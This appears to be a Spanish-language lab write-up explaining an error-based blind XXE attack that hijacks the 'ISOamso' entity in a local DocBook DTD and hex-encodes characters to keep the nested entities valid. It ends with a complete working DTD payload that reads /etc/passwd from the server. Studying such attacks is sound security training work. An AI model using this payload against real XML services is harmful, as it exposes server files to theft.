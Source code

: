 > Al modificar la entidad 'ISOamso' empleamos la misma estrategia vista en un laboratorio anterior, la cual consiste en forzar un error al cargar una entidad de parámetro dentro de una ruta inexistente, sin embargo, al estar dentro del contexto de una entidad y de unas comillas simples, es necesario cambiar la representación de algunos caracteres.

![](/img2/Pasted%20image%2020250816191036.png)

> Todos los % están representados en hexadecimal excepto el que se encuentra dentro del contexto de la segunda entidad, este se representa de la misma forma excepto por el & que lo representamos en hexadecimal. Además para que no se corrompa el contexto de las comillas simples es necesario representarlas en hexadecimal.

- Injection

```dtd
<!DOCTYPE foo [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; myFile SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; first "<!ENTITY &#x26;#x25; second SYSTEM &#x27;file:///test/&#x25;myFile;&#x27;>">
&#x25;first;
&#x25;second;
'>
%local;
]>
```